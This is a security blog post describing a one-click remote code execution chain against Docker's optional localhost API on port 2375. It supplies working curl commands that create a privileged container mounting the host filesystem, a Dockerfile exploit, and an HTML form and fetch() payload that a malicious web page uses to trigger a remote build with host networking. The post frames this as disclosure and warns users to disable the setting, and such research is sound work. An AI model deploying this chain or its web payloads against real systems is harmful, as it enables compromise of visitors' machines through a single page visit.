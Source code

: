 ```yaml
---
layout: post
title: Developing a Docker 1-Click RCE chain for fun
description: >
  In this blog post we will explore the possibility of abusing Docker's API to achieve a 1-click RCE chain.
sitemap: false
hide_last_modified: true
---
```


## Developing a Docker 1-Click RCE chain for fun

## Preface
I'd like to preface this post by highlighting that this chain requires users to enable a specific setting in their Docker settings. Default installations are secure but if you are a regular Docker user then please make sure that you have this option disabled as otherwise you are vulnerable to RCE.

## Docker
When developing CTF challenges I often make use of Docker for its simple deployments and security guarantees. It was during some recent CTF-related endeavours that I happened upon the following configuration option for Docker which caught my eye.

![Docker API Setting](/assets/img/blog/docker_daemon_setting.png)

The configuration option is pretty simple; it will expose the "Docker API" on port 2375. Docker's official website provides a description of this API.

> The Docker Engine API is a RESTful API accessed by an HTTP client such as wget or curl, or the HTTP library which is part of most modern programming languages.

At the current time of writing the latest version is 1.47 and its endpoints are documented [here](https://docs.docker.com/reference/api/engine/version/v1.47/).

This poses the question; *why the strict warning?* Of course having access to this API allows you to create containers and execute code. The daemon also makes it possible to escalate your priveleges to the host machine. There have been many cases of attacks against exposed Docker APIs in the past but this is due to the API being made accessible to the outside world. Surely having it bound to localhost is fine?

## Abusing the API
As previously mentioned; attacks against exposed Docker APIs are pretty well defined. In fact, PayloadAllTheThings has an exploit script for exactly this case [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py).

The aforementioned exploit script fetches all container IDs and then runs a specific command inside of them. This is good for a general proof of concept but leaves a lot unexplored. *What if there's no containers?* *How do we get root access in the host context?* *What if the network configuration doesn't allow a callback?*

### Creating Containers

We can answer the first question pretty easily. The Docker API defines an endpoint to create your own containers. Using this, we can simply create our own. To escalate our privileges then we can make use of the `HostConfig` option on the endpoint, particularly the `Binds` part which allows us to create containers with read-write references to the host filesystem.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["/:/mnt"]}}' http://localhost:2375/containers/create?name=shell
```

*To avoid mounting to WSL in Windows you can define a mount to `C:/` and access the Windows filesystem*

This will spawn a container which gives the full host filesystem in `/mnt` within the container and allows us to modify and read these files.

### Starting Containers
Once a container is created, we can start it using the `/containers/<name>/start` endpoint.

Since we passed a `?name=shell` parameter on the previous example we already defined our container name to be `shell` so we can use that.

```bash
curl -X POST http://localhost:2375/containers/shell/start
```

### Executing Commands
Above we have created a container with a mount to the host filesystem. To escalate our priveleges further we want to overwrite files on the host system.

The Docker API also provides a means of executing commands in our newly created container. Namely `/containers/shell/exec` which accepts a `Cmd` POST parameter and returns an `exec_id` and `/exec/<exec_id>/start` endpoint which allows us to run the command.

So we can use something like `jq` to parse the output of the first command, save it as an environment variable and use it in the second command to automate this.

```bash
exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://localhost:2375/containers/shell/exec | jq -r .Id)
curl -X POST "http://localhost:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Since the command to execute is `mkdir /mnt/tmp/pwned` this will create a directory named `pwned` in our `/tmp` directory on the *host* filesystem.

## One-Click RCE
So at this point you should have a good idea of how we can exploit an exposed Docker API. This gave me an idea though; since this runs on `localhost:2375` is there a way for us to abuse this through a browser? That is, could we find a way of exploiting a user who visits our website and has this service running on their localhost?

### SOP
One of the main obstacles to this is Same-Origin Policy which prevents websites from interacting with endpoints of a different origin. There are some tricks to bypass this restriction; redirecting to a URL is usually not blocked. However, most of the important endpoints on the Docker API are POST.

Another common strategy is defining a HTML form with an action pointing to a remote resource and submitting it using javascript's `form.submit()` call. This would allow us to send a single POST request (along with URL parameters) to the API. The problem is that the API seems to be strictly `application/json` and the forms do not support that.

So, can we find an endpoint that will allow us to do everything we need with just a POST primitive?

### Image Builds
I tried a number of different endpoints until I eventually discovered `/build`

![build endpoint](/assets/img/blog/build_endpoint.png)

Interestingly, it accepts URL parameters. The most interesting here was `remote` which allows you to specify a remote URL for a `Dockerfile` and it will install and run the build. I built a HTML form on my website and tested this out to verify it works.

```html
<form action="http://localhost:2375/build?remote=https://<snip>/Dockerfile">
  <input id="btn" type="submit">
</form>
<script>document.getElementById("btn").click();</script>
```

Visiting the above page built my remote Dockerfile into an image.

### Abusing Image Builds
It turns out that image builds take place in their own short-lived container. Here, we can define what gets installed and run arbitrary commands. This gave me an idea for a sort of *"inception"* attack. Could we use the docker image build process to interact with the API *again* but this time using curl where we can set the `application/json` content type.

Well no... Because the build process wouldn't have access to `localhost` on the host machine. Here is where I noticed another optional parameter.

![networkmode parameter](/assets/img/blog/networkmode_option.png)

Aha! We can set the `networkmode` to `host` and this will allow us to interact with `localhost` on the host machine by referencing `host.docker.internal` host. This way we can create a Dockerfile which creates a mounted container to the host, runs commands to overwrite host files and all from them simply visiting our website which submits a form. 😱

## Putting it all Together
Below is my Dockerfile exploit.

```Dockerfile
FROM alpine:latest

RUN apk add --no-cache curl jq

RUN curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["C:/:/mnt"]}}' http://host.docker.internal:2375/containers/create?name=shell
RUN curl -X POST http://host.docker.internal:2375/containers/shell/start
RUN exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://host.docker.internal:2375/containers/shell/exec | jq -r .Id) && curl -X POST "http://host.docker.internal:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Then all we need is a website to complete the POST to `http://localhost:2375/build?remote=http://<snip>/Dockerfile&networkmode=host` for it to execute. You can use the form above or simply run the follow javascript.

```javascript
fetch("http://127.0.0.1:2375/build?remote=https://<snip>/Dockerfile&networkmode=host", {method: "POST", mode: "no-cors"})
```

## Final Remarks
I think there is some more potential to expand from here. If we could build the image using GET then it'd make for a useful SSRF -> RCE gadget. This post was a bit rushed as I wanted a placeholder for my new blog so feel free to reach out to me on X ([@LooseSecurity](https://x.com/loosesecurity)) if you think there's more I could add to this.

I also wanted to point out that I did the *responsible thing* and checked with Docker Security before posting this and it is indeed an accepted risk that if you toggle this option then you are wide open to exploitation.